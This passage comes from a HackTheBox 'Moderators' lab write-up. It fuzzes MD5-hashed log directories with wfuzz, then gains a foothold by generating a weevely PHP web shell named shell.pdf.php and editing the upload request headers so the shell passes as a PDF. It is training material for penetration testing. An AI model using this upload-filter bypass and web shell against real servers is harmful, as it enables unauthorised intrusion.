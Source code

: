 The log path is the report in md5, so we can start testing for others log we can visualize:

```console
zero@pio$ wfuzz -c -z range,0-9999,md5 -u "http://10.10.11.173/logs/FUZZ/" --hh 274

	000002590:   200        0 L      0 W        0 Ch        "743c41a921516b04afde48bb48e28ce6"                                                          
	000003479:   200        0 L      0 W        0 Ch        "b071cfa81605a94ad80cfa2bbc747448"                                                          
	000004222:   200        0 L      0 W        0 Ch        "74d90aafda34e6060f9e8433962d14fd"                                                          
	000007613:   200        0 L      0 W        0 Ch        "ce5d75028d92047a9ec617acb9c34ce6"                                                          
	000008122:   200        0 L      0 W        0 Ch        "afecc60f82be41c1b52f6705ec69e0f1"                                                          
	000009799:   200        0 L      0 W        0 Ch        "e21cece511f43a5cb18d4932429915ed"
```

All of them are empty. We can fuzz in them, founding a pdf file in `/logs/743c41a921516b04afde48bb48e28ce6/logs.pdf`:

![Untitled](/assets/img/hackthebox/labs/moderators/Untitled%201.png)

We can travel to that directory, founding a place to upload files.

# Foothold

We can send a basic PHP reverse shell, but it won’t work. Seems like there are some kind of filter. We can try with `weevely` to generate a payload as:

```console
zero@pio$ weevely generate shell shell.pdf.php
```

Modify the headers in burp, so it appears as a pdf:

```html
Content-Disposition: form-data; name="pdfFile"; filename="shell.pdf.php"
Content-Type: application/pdf

%PDF-1.5
<content>
%%EOF
```
